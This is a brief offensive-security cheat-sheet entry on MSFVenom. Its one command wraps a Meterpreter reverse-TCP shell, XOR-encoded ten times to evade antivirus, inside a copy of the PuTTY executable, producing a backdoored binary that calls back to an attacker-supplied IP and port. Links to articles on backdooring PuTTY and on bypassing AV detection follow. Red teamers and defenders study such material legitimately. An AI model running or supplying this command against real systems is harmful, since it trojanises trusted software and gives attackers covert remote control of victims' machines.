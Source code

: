 # MSFVenom

Search Tag(s): #defense-evasion #backdoor #metasploit-framework

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x64/xor_dynamic -i 10 -k -x putty_x64.exe -o backdoored_putty_x64.exe
```

---
## References

- [Backdooring Putty](https://fluidattacks.com/blog/backdooring-putty/)

- [Patching Windows Executable with the Backdoor](https://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory)

- [RoseSecurity: Bypass AV Payload Detection](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.md)